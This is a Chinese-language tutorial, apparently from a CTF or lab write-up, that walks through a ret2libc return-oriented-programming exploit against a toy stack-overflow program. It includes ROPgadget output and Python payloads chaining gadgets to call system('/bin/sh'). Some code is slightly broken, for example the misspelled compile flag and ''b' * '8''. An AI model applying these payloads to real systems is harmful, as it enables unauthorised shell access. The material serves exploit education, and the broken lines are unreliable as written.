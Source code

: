 ```c
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```
> gcc -fno-stack-procter -no-pie -o rop_libc rop_libc1

&emsp;&emsp;我们首先可以看到一个明显的缓冲区溢出，而且程序会自动输出system()在内存中的实际地址，这个时候我们可以想到只需要拥有 **"/bin/sh"** 就可以走上人生巅峰，这个时候我们考虑使用gadgets来将 **"/bin/sh"** 的地址传入 **rdi**。ok，用ROPgadget来搜索一波：  

```shell
ROPgadget 	--binary rop_libc1  --only "pop|ret"
====================================================
0x0000000000001294 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001296 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001298 : pop r14 ; pop r15 ; ret
0x000000000000129a : pop r15 ; ret
0x0000000000001293 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001297 : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000000116f : pop rbp ; ret
0x000000000000129b : pop rdi ; ret
0x0000000000001299 : pop rsi ; pop r15 ; ret
0x0000000000001295 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001016 : ret
0x0000000000001072 : ret 0x2f
0x000000000000119a : ret 0xfffe
```
&emsp;&emsp;我们发现结果并不理想，由于这个程序太小了，里面竟然没有 **pop rdi ; ret** 这条指令，那么我们只好换个思路，为什么不直接使用libc.so里的gadgets呢？灵机一动之后，我们想到可用使用write()来泄漏libc.so里的指令地址，话不多说，先搜一下symbols地址：  

```shell
ROPgadget --binary rop_libc --only "pop|ret" 
=====================================================
0x000000000002456f : pop rdi ; pop rbp ; ret
0x0000000000023a5f : pop rdi ; ret
```
&emsp;&emsp;果然命中注定的那个它出现了，**0x23a5f：pop rdi ; ret ** 就是我们想要的gadgets，我们可以构造rop链了。  

```python
payload = "a" * 0x80 + 'b' * '8' + p64(pop_ret_addr) + p64(bin_sh) + p64(system_addr)
```

&emsp;&emsp;但同时考虑到我们只需要执行system一次，所以似乎gadgets不含有ret也可以，那么我们的选择又多了一些：  

```shell  
ROPgadget --binary rop_libc --only "pop|call"
====================================================
0x00000000000bad0d : call qword ptr [rdi]
0x0000000000027225 : call rdi
0x00000000000f982b : pop rax ; pop rdi ; call rax
0x00000000000f982c : pop rdi ; call rax
```

&emsp;&emsp;这时候我们看到了 **0x00f982b : pop rax ; pop rdi ; call rax** 这行指令应该也是可以的，我们只需要构造payload如下：  

```python
payload = 'a' * 0x80 + 'b' * 8 + p64(pop_pop_call) + p64(system_addr) + p64(bin_sh)
```
